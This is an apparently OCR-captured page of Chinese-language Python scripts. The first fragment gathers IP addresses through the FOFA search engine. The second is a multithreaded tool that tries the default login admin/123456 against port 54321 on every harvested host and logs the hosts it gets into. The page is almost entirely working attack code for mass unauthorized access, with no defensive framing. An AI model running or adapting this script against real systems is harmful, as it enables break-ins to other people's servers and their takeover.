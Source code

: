```
            print('运行错误，账号密码可能出错！')
            print(data)
            sys.exit(1)
            #写入文件
            write(results)

if __name__ == '__main__':
    email, key = ('email','key')
    client = pythonfofa.Client(email,key)

    get_ip(client)
    #read()
```

#### 多线程爆密码

```
import time
import requests
from concurrent.futures import ThreadPoolExecutor

def download(ip, country):
    params = {
    'username': 'admin',
    'password': '123456'
    }
    url = 'http://' + ip + ':54321/login'
    # noinspection PyBroadException
    data = requests.post(url=url, params=params)
    code = data.status_code
    #print(url, data)

    if code == 200:
        data = data.json()
        #print(data)
        if '登录' in data['msg']:
            with open('./ip1-ok.txt', 'a+') as fp:
            print(ip, '获取成功！')
            fp.write(ip + '|' + country + '\n')
            fp.close()
        else:
            print(ip,'密码错误！')
    else:
        print(ip,'访问失败！')


if __name__ == '__main__':
    with ThreadPoolExecutor(500) as t:
        for item in open('./ip.txt', 'r'):
            item = item.split('|')
            ip = item[0]
            #print(url)
            country = item[1].replace('\n', '')
            t.submit(download, ip, country)

            print("全部下载完成！")
```
